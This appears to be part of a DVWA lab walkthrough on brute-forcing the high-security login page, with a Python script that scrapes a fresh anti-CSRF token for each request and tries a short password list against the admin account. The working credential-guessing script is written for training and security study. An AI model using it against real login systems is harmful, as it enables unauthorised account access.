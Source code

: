 ### High Security Level

1. **Understanding the Protection**
   - High level implements a user lockout mechanism
   - After 3 failed attempts, the account is locked for 15 minutes
   - Server tracks failed attempts using a token (anti-CSRF token)

2. **Token Extraction**
   - Each login attempt requires a valid CSRF token
   - Need to extract and use a new token for each request

3. **Python Script with Token Extraction**
   ```python
   #!/usr/bin/env python3
   import requests
   import sys
   import re
   import time
   
   target_url = "http://dvwa.local/vulnerabilities/brute/"
   username = "admin"
   password_list = ["password", "123456", "admin", "password123"]  # Very small list due to lockout
   
   cookies = {
       "PHPSESSID": "your_session_cookie",
       "security": "high"
   }
   
   for password in password_list:
       # Get a fresh CSRF token
       r = requests.get(target_url, cookies=cookies)
       token_match = re.search(r'user_token" value="([a-zA-Z0-9]+)"', r.text)
       
       if token_match:
           user_token = token_match.group(1)
           print(f"Got token: {user_token}")
           print(f"Trying: {password}")
           
           data = {
               "username": username,
               "password": password,
               "Login": "Login",
               "user_token": user_token
           }
           
           r = requests.post(target_url, data=data, cookies=cookies)
           
           if "Username and/or password incorrect" not in r.text:
               print(f"[+] Found valid credentials: {username}:{password}")
               sys.exit(0)
               
           time.sleep(1)  # Respectful delay
       else:
           print("Could not find CSRF token")
           break
   ```
